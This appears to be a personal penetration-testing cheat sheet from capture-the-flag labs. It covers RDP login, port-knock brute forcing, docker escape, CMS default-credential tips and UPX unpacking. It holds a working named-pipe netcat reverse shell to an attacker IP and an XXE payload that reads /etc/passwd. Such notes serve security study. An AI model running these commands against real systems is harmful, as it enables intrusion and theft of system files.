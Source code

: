 ###### RDP (Remote Desktop Protocol)
-  `xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.70.76 /u:THM\Administrator /p:'Password321'`

###### Port Knocking
-  "**Port knocking** is a network security technique used to dynamically open or close ports on a firewall based on a predefined sequence of connection attempts (or "knocks") to closed ports. It acts as a stealth mechanism to hide services and allow access only to authorized users who know the correct sequence." via ChatGPT
- Can be configured with `iptables` 
- [Port Knocking Explained](https://www.youtube.com/watch?v=IBR3oLqGBj4)
- `knockd`
- `https://github.com/eliemoutran/KnockIt` - brute force every port sequence
- `python3 knockit.py -b 10.10.252.187 1111 2222 3333 4444`
-  rescan the machine with `nmap`

###### Escaping a docker container
- You can "escape" a docker container if the host of the container has cron job running in the container. You can get a reverse shell by setting it up in the script that the cron job is executing.
- By the hostname of the machine you can determine whether or not you're in (docker) container. 
- Example: `root@7546fa2336d6:/opt/clean#`, the hostname is `7546fa2336d6` which should be a container id.
- More techniques for escaping a container (**Docker Breakout**): https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation

###### Named pipe
- A **named pipe** (FIFO) acts as a special file where one process can write data, and another process can read from it.
- Reverse shell with a named pipe:
	-  Open a listener: `nc -lvnp 4444`
	-  Create a named pipe on the victim machine: `mkfifo /tmp/reverse_pipe`
	-  Execute the reverse shell on the victim machine: `bash -i < /tmp/reverse_pipe 2>&1 | nc <attacker_ip> 4444 > /tmp/reverse_pipe`
	- Explanation: `bash -i < /tmp/reverse_pipe`: This starts an interactive `bash` shell that will read commands from `/tmp/reverse_pipe`. `2>&1`: This redirects both the standard output and standard error (i.e., the shell's output) to the pipe. `| nc <attacker_ip> 4444`: This pipes the input of the shell over to the attacker's machine on port `4444` using Netcat. `> /tmp/reverse_pipe`: This redirects the output from the attacker's machine back to the named pipe, where the shell will read it from.

###### CMS (Content Management System)
-  First of all, if the CMS version is vulnerable, look for exploits. 
-  Look for **uploading** a reverse shell.
-  for the login page, try weak credentials like "admin:password", "admin:admin"
-  search default credentials for the **CMS** you're working with

###### UPX (Ultimate Packer for eXecutables)
- `upx -d <executable>` - **UPX** decompress

###### XXE (XML external entity)
-  **XXE** payload (**Local File Inclusion**): 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  <!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```
- you can achieve **RCE** (**Remote Code Execution**) with **Log Poisoning** and the **XXE** local file inclusion payload
- you can use `expect://`
- you can do **SSRF** (**Server-Side Request Forgery**) with **XXE**
- [XXEinjector](https://github.com/enjoiz/XXEinjector)

